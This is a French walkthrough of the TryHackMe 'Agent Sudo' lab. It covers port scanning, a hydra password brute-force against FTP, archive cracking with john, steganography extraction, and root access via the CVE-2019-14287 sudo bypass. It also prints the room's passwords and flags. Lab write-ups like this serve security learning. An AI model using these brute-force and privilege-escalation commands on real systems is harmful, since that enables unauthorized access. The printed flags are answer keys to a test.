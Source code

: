 # THM - Agent Sudo
<p align="center">
  <img width="300" height="300" src="logo.png">
</p>

Description | Difficulté | Lien
-------------|------------|-----
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. | Easy 🟢| [THM](https://tryhackme.com/room/agentsudoctf)

Énumération de port :
```txt
nmap -A <ip>
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 05:12 EDT
Nmap scan report for <ip>
Host is up (0.040s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.11 seconds
```

Il y a 3 ports ouverts, le port 21 qui héberge un FTP, le port 22 pour le SSH et le port 80 avec un serveur Web.

> **Note**
> Première question : How many open ports ? ``3``

Sur la page d'accueil du site, il y a le message suivant :
```txt
Dear agents,
Use your own codename as user-agent to access the site.
From,
Agent R
```
Il peut être déduit de ce message qu'il nous faut modifier notre user-agent pour afficher de nouvelles informations. L'user-agent doit correspondre à un nom de code. En regardant la signature de l'agent, on remarque qu'il se nomme "Agent R" donc son nom de code est R.

> **Note** 
> Deuxième question : How you redirect yourself to a secret page ? ``user-agent``

En essayant les 26 lettres de l'alphabet avec l'aide du plugin [User-Agent Switcher](https://mybrowseraddon.com/useragent-switcher.html), il y a un nouveau message qui apparait avec l'user-agent "C".

Le message est le suivant :
```txt
Attention chris,
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
From,
Agent R
```

> **Note** 
> Troisième question : What is the agent name ? ``chris``

Le message indique que le mot de passe de Chris est faible. Il faut donc brute force, à l'aide de la commande suivante :
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://<ip>
```

> **Note**
> Quatrième question : FTP password ``crystal``

Grâce à ce mot de passe, il est possible de se connecter au service ftp.
À la racine, il y a 3 fichiers.
```txt
cute-alien.jpg
cutie.png
To_agentJ.txt
```
Dans le fichier texte, il a écrit :
```txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Donc les informations importantes sont stockées dans les photos. Grâce à Binwalk, de l'image cutie.png peut être extrait un fichier zip et cracké le mot de passe du Zip
```bash
binwalk --extract cutie.png
zip2john <fichierzip> > hash.txt
john hash.txt
```

> **Note**
> Cinquième question : Zip file password ``alien``

On a maintenant un fichier texte qui à un message caché en base64 :
```txt
QXJlYTUx
```
> **Note**
> Sixième question : steg password ``Area51``

Lorsque l'on utilise steghide sur le fichier cute-alien.jpg, celui-ci demande un mot de passe. En entrant ``Area51`` nous avons message.txt qui nous est révélé.

```txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

> **Note**
> Septième question : Who is the other agent (in full name) ? ``james``

> **Note**
> Huitième question : SSH password ``hackerrules!``

La dernière étape est de se connecter en SSH avec l'utilisateur james.
À la racine du home de james, il y a une photo qu'il va falloir télécharger et le flag user.

> **Note**
> Neuvième question : What is the user flag? ``b03d975e8c92a7c04146cfa7a5a313c7``

Avec la photo Alien_autopsy.jpg, il faut faire du reverse image search pour tomber sur l'événement qu'il immortalise.

> **Note**
> Dixième question : What is the incident of the photo called ? ``Roswell alien autopsy``

En regardant les droits sudo, nous avons cette règle :
```bash
(ALL, !root) /bin/bash
```

> **Note**
> Onzième question : CVE number for the escalation ``CVE-2019-14287``

En tapant la commande suivante, nous accédons à l'utilisateur root :
```bash
sudo -u#-1 /bin/bash
```

> **Note**
> Douzième question : What is the root flag ? ``b53a02f55b57d4439e3341834d70c062``

> **Note**
> Question bonus : Who is Agent R ? ``DesKel``